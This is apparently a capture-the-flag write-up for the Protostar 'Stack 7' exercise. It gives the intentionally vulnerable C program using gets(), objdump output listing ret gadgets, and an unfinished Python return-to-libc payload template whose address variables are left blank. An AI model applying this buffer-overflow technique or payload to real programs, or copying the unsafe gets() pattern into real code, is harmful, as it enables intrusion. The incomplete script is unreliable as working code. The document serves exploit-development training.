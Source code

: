 # Stack 7

## About

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
    unsigned int ret;
	
	  printf("input path please: "); fflush(stdout);
	  
	    gets(buffer);
		
		  ret = __builtin_return_address(0);
		  
		    if((ret & 0xb0000000) == 0xb0000000) {
			      printf("bzzzt (%p)\n", ret);
				        _exit(1);
						  }
						  
						    printf("got path %s\n", buffer);
							  return strdup(buffer);
							  }
							  
							  int main(int argc, char **argv)
							  {
							    getpath();
								
								
								
								}
								
```

## Solution 

Using objdump to check for suitable calls in the .text segment

``` bash
[root:/opt/Data/stack7]# objdump -d ./stack7 -j .text | grep ret
 8048494:       c3                      ret
  80484c2:       c3                      ret
   8048544:       c3                      ret
    8048553:       c3                      ret
	 8048564:       c3                      ret
	  80485c9:       c3                      ret
	   80485cd:       c3                      ret
	    80485f9:       c3                      ret
```

any of these addresses will do, and i'd alter the previous exploit like so

``` python
#!/usr/bin/env python

offset = 80
shell = '/bin/sh;#'
junk = 'A' * (offset - len(shell))

systemaddr =
systemarg = 

textret = '\xc2\x84\x04\x08'

exitaddr =
exitarg = '\xff\xff\xff\xff'

payload = shell + junk + systemaddr + exitaddr + systemarg

print(payload)
```

however i still wont be able to execute `/bin/sh` from my `libc` so fo now i'll keep this as a template
